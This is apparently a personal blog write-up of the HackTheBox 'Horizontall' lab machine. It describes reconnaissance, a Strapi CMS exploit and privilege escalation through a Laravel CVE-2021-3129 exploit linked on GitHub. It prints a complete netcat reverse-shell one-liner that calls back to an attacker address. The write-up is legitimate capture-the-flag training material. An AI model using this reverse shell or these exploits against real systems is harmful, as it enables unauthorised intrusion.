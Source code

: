 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Hello, here's my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 

![](assets/posts/3/0.jpeg)
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](assets/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](assets/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](assets/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](assets/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](assets/posts/3/5.png)
/reviews is useless.
![](assets/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](assets/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](assets/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](assets/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](assets/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](assets/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](assets/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](assets/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](assets/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit). which got me arbitrary code execution on the root account ,and got the flag.
![](assets/posts/3/15.png)
